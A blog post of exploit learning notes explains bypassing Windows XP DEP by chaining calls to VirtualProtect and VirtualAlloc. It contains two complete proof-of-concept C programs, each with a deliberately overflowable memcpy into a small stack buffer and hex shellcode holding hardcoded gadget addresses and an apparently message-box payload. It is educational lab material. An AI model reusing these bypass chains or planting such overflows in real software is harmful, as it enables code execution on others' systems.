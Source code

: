 ```yaml
---
title: Exploit learning notes 015 Using VirtualProtect and VirtualAlloc attack DEP
description: Ret2Libc's DEP attack using VirtualProtect and VirtualAlloc
date: 2020-11-19 17:43:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-015-using-virtualprotect-and-virtualalloc-attack-dep/)

## Use VirtualProtect to attack DEP

### Principle

> Use the `VirtualProtect` function to change the stack page memory attribute to executable

### Preceding content

- VirtualProtect parameters

```cpp
BOOL VirtualProtect(
    LPVOID lpAddress,
    DWORD dwSize,
    DWORD flNewProtect,
    PDWORD lpflOldProtect
);

// 所以可以这样写
BOOL VirtualProtect(
    shellcode StartAddressOfMemorySpace,
    shellcode Size,
    0x40,
    AWritableAddress
);
```

- There are bound to be zeros here, so the attack function is replaced with memcpy

### Steps

- Fix the EBP so that when the function is called, there is no memory read violation and an exception is thrown
- Fill in the address of VirtualProtect, which will be returned here
- Fill in the empty instruction
- Fill in the return address
- Fill in the parameters of the function
- Fill in the shellcode itself

### Code

> Simulation environment: System: Windows XP SP3, DEP: Optout, Compiler: VC6, Compile options: Disable optimization, Version: release

```cpp
#include<windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x85\x8B\x1D\x5D" // push esp pop ebp ret `fix ebp`
"\xD4\x1A\x80\x7C" // VirtualProtect Address
"\x90\x90\x90\x90"
"\x8C\xFE\x12\x00" // ret Address
"\xB0\xFD\x12\x00" // Param Address: 0x0012FDB0
"\xFF\x00\x00\x00" // Param Size: 0x100
"\x40\x00\x00\x00" // Param NewProtect: 0x40
"\x00\x00\x3F\x00" // Param pOldProtect: 0x00910000
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test()
{
    char str[176];
    memcpy(str, shellcode, 420);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

## Attack DEP with VirtualAlloc

### Preceding content

- VirtualAlloc parameters

```cpp
LPVOID WINAPI VirtualAlloc(
    __in_opt LPVOID lpAddress,
    __in SIZE_T dwSize,
    __in DWORD flAllocationType,
    __in DWORD flProtect
)
```

- Parameter description
  - `lpAddress`, the address of the requested memory area, if this parameter is `NULL`, the system will decide the location of the allocated memory area and round up by `64KB`.
  - `dwSize`, the size of the requested memory area
  - `flAllocationType`, the type of memory to be requested
  - `flProtect`, the type of access control for the requested memory, such as read, write, execute, etc. The function returns the starting address of the requested memory when the memory request is successful, and returns `NULL` when the request fails

### Code

> Simulation environment: System: Windows XP SP3, DEP: Optout, Compiler: VC6, Compile options: Disable optimization, Version: release

```cpp
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x85\x8B\x1D\x5D" // push esp pop ebp ret 4
"\xE1\x9A\x80\x7C" // Address of VirtualAlloc
"\x90\x90\x90\x90"
"\x70\x6F\xC1\x77" // VirtualAlloc ret address
"\x00\x00\x03\x00" // Param: lpAddress
"\xFF\x00\x00\x00" // Param: dwSize
"\x00\x10\x00\x00" // Param: flAllocationType
"\x40\x00\x00\x00" // Param: flProtect
"\x00\x00\x03\x00" // memcpy ret address
"\x00\x00\x03\x00" // Param: destin
"\x94\xFE\x13\x00" // Param: source
"\xFF\x00\x00\x00" // Param: n
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

### Technical details

- First use VirtualAlloc to request a section of space for shellcode execution
- Then use memcpy to copy the shellcode over
- Finally, when memcpy returns, it returns directly to the starting address of the shellcode payload
